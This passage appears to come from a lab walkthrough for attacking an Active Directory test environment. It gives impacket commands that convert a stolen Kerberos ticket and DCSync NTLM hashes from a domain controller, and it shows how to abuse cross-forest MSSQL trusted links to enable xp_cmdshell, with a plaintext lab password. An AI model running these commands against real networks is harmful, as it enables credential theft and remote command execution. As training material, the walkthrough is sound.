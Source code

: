 - Convert it to ccache and use it to dcsync essos.local
```
impacket-ticketConverter meereen.kirbi meereen.ccache 

export KRB5CCNAME=./meereen.ccache

impacket-secretsdump -k -no-pass -just-dc-ntlm essos.local/'MEEREEN$'@meereen.essos.local
```
![screenshot](pics/secretdump_unconstraint.png)

## Mssql Trusted link

- The MSSQL trust link is across forest, so it can be used to make forest to forest exploitation.
- Example was done in part 7 but let’s redo this for fun :
    
- Connect to the mssql DB as jon.snow
```
impacket-mssqlclient -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@castelblack.north.sevenkingdoms.local
```

- enumerate the mssql trusted links
```
enum_links
```

- And now use the link from castelblack (north domain) to braavos (essos domain)
```
use_link BRAAVOS
enable_xp_cmdshell
xp_cmdshell whoami
```